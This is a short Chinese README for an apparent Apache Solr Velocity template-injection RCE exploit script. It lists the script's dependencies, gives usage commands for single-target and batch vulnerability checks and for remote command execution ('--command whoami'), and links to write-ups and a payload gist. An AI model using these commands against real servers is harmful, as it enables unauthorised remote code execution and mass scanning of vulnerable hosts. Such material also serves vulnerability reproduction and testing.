 ## 依赖库

requests

threading

json

optparse

## 使用

单url检测

python3 apache-solr-rce-201910.py -u http://xxx:8983/solr/new_core

批量url检测

python3 apache-solr-rce-201910.py -L url.txt

命令执行

python3 apache-solr-rce-201910.py -u http://xxx:8983/solr/new_core --command whoami

## 参考

[[漏洞复现\] Apache Solr RCE](https://www.cnblogs.com/mark-zh/p/11775851.html)

[Apache Solr velocity模板注入RCE漏洞复现](https://blog.csdn.net/qq_18501087/article/details/102854324)

[Apache Solr最新RCE漏洞分析](https://www.freebuf.com/vuls/218730.html)

[payload by S00py](https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt)

